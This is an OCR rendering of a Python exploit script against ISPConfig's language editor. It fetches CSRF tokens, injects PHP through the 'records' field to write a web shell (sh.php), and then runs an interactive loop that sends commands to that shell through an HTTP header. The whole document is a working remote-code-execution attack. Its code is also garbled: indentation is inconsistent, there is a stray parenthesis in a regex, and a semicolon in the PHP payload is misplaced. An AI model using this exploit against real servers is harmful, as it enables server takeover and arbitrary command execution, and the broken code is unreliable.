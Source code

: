 ```python
def get_csrf_tokens(url, session, lang_file):
	print('[*] Fetching CSRF tokens..')
	target_url = f"{url}admin/language_edit.php"
	data = {
		'lang':'en',
		'module':'help',
		'lang_file':lang_file
	}
	resp = session.post(target_url, data=data, verify=False)
	
	csrf_id_match = re.search(r'_csrf_id" value="([^"]+)"', resp.text)
	csrf_key_match = re.search(r'_csrf_key" value="([^"])+)"', resp.text)
	
	if not csrf_id_match or not csrf_key_match:
		sys.exit("[-] CSRF tokens not found!")
	
  print(f"[+] CSRF ID: {csrf_id_match.group(1)}")
  print(f"[+] CSRF Key: {csrf_key_match.group(1)}")
  return csrf_id_match.group(1), csrf_key_match.group(1)
  

def inject_shell(url, session, lang_file, csrf_id, csrf_key):
	
	payload = base64.b64encode(b"<?php print('___'); passthru(base64_decode(\$_SERVER['HTTP_C'])); print('___';) ?>").decode()  
	injection = f"'];file_put_contents('sh.php',base64_decode('{payload}'));die;#"
	
	data = {
        'lang': 'en',
        'module': 'help',
        'lang_file': lang_file,
        '_csrf_id': csrf_id,
        '_csrf_key': csrf_key,
        'records[\\]': injection
    }
		resp = session.post(f"{url}admin/language_edit.php", data=data, verify=False)

    if resp.status_code == 200:
        print(f"[+] Shell written to: {url}admin/sh.php")
    else:
        print(f"[-] Failed to send payload, HTTP {resp.status_code}")
        
 def launch_shell(url, session):
	 print("[+] Lauching shell...")
	 shell_url = f"{url}admin/sh.php"
	 
	 while True:
		 try:
			 cmd = input("\nispconfig-shell@#")
			 if cmd.strip().lower() == "exit":
				 break
			 
			 headers = {'C': base64.b64encode(cmd.encode()).decode()}
			 resp = session.get(shell_url, headers=headers, verify=False)
			 output = re.search(r'___(.*)___', resp.text, re.DOTALL)
						 
			 if output:
			         print(output.group(1).strip())
			     else:
			         print("[-] Exploit failed or no output.")
	 	except KeyboardInterrupt:
		  break   

```